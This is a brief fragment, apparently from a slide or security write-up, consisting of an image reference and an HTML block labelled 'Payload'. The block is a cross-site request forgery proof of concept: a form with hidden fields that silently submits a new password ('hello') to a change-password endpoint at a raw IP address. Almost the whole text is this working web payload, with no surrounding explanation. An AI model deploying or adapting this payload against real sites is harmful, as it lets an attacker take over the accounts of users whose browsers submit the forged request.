

# Payload
<html>
<body>
<form action="http://13.232.35.137/profile/change_password.php" method="POST">
<input type="hidden" name="New Password" value="hello"/>
<input type="hidden" name="Confirm Password" value="hello"/>
<input type="submit" value="update"/>
</form>
</body>
</html>